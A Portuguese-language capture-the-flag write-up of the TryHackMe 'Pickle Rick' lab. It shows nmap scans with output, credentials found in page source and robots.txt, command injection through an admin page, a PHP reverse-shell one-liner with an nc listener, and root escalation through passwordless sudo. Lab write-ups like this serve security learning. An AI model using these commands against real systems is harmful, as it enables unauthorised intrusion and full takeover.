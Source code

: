 # Pickle Rick - TryHackMe CTF

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick-ctf.jpg)

- **Descrição:** Esse é um CTF tematizado que requer que você explore um webserver para encontrar 3 ingredientes/3 flags que ajudaram Rick a ser um humano novamente!
- **Categoria:** Exploração Web.
- **Nível:** Fácil.

## Passo 1: usar o nmap para saber as portas abertas

```python
 root@kali:~/pickle-rick-ctf# nmap -A -p- 10.10.46.162 -oN nmap.log 
```
- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 13:58 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.00070s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:4b:26:41:78:2f:ca:6e:c2:b5:38:b0:d5:0c:2b:34 (RSA)
|   256 6a:2c:68:6f:d4:ef:d4:6d:10:3c:16:54:c9:f1:36:ba (ECDSA)
|_  256 ff:14:2b:52:bb:b2:a6:cc:f7:44:d3:a2:ff:da:03:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.43 seconds 
```

## Passo 2: analisar o código fonte e enumerar

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick1-ctf.JPG)

- **Já conseguimos encontrar uma informação válida, um nome de usuário:** ``` R1ckRul3s ``` 

Podemos rodar o nmap mais uma vez, só que agora usando um script de enumeração:

```python
 root@kali:~/pickle-rick-ctf# nmap --script=http-enum 10.10.46.162
```

- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 14:22 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

- Acessando o caminho ***/robots.txt*** encontramos -> ```Wubbalubbadubdub```
- Acessando o caminho ***/login.php*** temos uma tela de login que exige usuário e senha


## Passo 3: fazendo login como administrador e pegando shell

- Se tentarmos logar com o usuário ``` R1ckRul3s ``` e a senha ```Wubbalubbadubdub``` conseguiremos ir para página de administrador

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick2-ctf.JPG)

- ***Note que temos um input, podemos passar um comando para ver se ele retorna algo***

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick3-ctf.JPG)

- Agora podemos ir no **[REVSHELLS](https://www.revshells.com/)** para pegarmos uma shell e usarmos:

- > php -r '$sock=fsockopen("10.10.181.45",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

- > nc -nlvp 4444 //para pegarmos a conexão na nossa máquina

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick4-ctf.JPG)

- 1 Recebos a shell e deixamos ela melhor com o comando ```python python3 -c "import pty;pty.spawn('/bin/bash')"```;
- 2 Pegamos a primeira flag/ingrediente e recebemos uma dica para procurar as outras flags/ingredientes;

## Passo 4: procurando as outras flags e escalando privilégios

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick5-ctf.JPG)

- Listamos a pasta do usuário rick e conseguimos a segunda flag

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick6-ctf.JPG)

- Tentamos listar a pasta ***/root*** porém não temos permissão;
- Executamos o comando sudo -l para verificar se o nosso user consegue usar algum comando com privilégios de usuário root atráves do sudo sem passar uma senha;
- Bingo! podemos executar TUDO como root usando sudo sem nenhuma senha.

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick7-ctf.JPG)

- Com isso conseguimos listar a pasta root e pegar a última flag!
- **OBS:** o endereço ip mudou durante o writeup pois foi necessário reiniciar a máquina do CTF.


